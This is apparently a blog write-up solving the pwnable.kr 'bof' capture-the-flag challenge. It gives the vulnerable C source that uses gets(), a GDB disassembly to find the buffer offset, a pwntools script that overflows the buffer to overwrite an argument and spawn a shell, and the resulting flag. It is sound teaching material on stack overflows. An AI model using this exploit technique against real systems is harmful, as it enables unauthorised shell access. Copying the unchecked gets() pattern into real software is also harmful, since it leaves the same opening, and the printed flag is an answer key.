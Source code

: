 ```yaml
---
title: "Pwnable.kr - bof"
classes: wide
header:
  teaser: /assets/images/binary-exploitation/pwnable.kr/thumbnails/bof.png
ribbon: red
description: "This is a classic buffer overflow challenge, the code reads user input and stores it in a 32 bytes array using `gets()` which doesn't do any size checking.
So if we enter say a hundred characters we will overflow the buffer array `overflowme` and write past it in memory.
The goal of this challenge is to overwrite `key` with the value..."
categories:
  - Binary Exploitation
---
```


> Challenge description:
>
> Nana told me that buffer overflow is one of the most common software vulnerability. 
> Is that true?




```c
#include <stdio.h>
#include <string.h>
#include <stdlib.h>

void func(int key){
	char overflowme[32];
	printf("overflow me : ");
	gets(overflowme);	// smash me!
	if(key == 0xcafebabe){
		system("/bin/sh");
	}
	else{
		printf("Nah..\n");
	}
}

int main(int argc, char* argv[]){
	func(0xdeadbeef);
	return 0;
}
```

This is a classic buffer overflow challenge, the code reads user input and stores it in a 32 bytes array using `gets()` which doesn't do any size checking.

So if we enter say a hundred characters we will overflow the buffer array `overflowme` and write past it in memory.

The goal of this challenge is to overwrite `key` with the value  `0xcafebabe`, by default function arguments are stored at `ebp+8, ebp+c, ...`, there is only on argument so we now it's at `ebp+8` (note that in 64 bit systems, function arguments are stored in the registers).

Using GDB, we can disassemble `func` to know the exact offset of the input buffer array from the `key` argument.

```
gef➤  disassemble func 
Dump of assembler code for function func:
.....
   0x56555644 <+24>:	call   0xf7e2db70 <puts>
=> 0x56555649 <+29>:	lea    eax,[ebp-0x2c]
   0x5655564c <+32>:	mov    DWORD PTR [esp],eax
   0x5655564f <+35>:	call   0xf7e2d0c0 <gets>
=> 0x56555654 <+40>:	cmp    DWORD PTR [ebp+0x8],0xcafebabe
.....
```

Great, now we now the buffer is at offset `0x2c` from ebp, so we need to send: 

**[0x2c characters to reach ebp + 4 bytes for saved ebp + 4 bytes for the return address + the value 0xcafebabe]**.

# Solution:

```python
#solve.py

from pwn import *

p = remote('pwnable.kr', 9000)

buf = ""
buf += 'A' * 0x2c
buf += 'XXXX'		# saved ebp
buf += 'XXXX'		# ret address
buf += p32(0xcafebabe)	# value to overwrite key

p.send(buf)
p.interactive()		# for interactive shell
```

```
$ python2 solve.py
[+] Opening connection to pwnable.kr on port 9000: Done
[*] Switching to interactive mode

$ ls
bof
bof.c
flag
log
log2
super.pl

$ cat flag
daddy, I just pwned a buFFer :)
```

Flag: `daddy, I just pwned a buFFer :)`
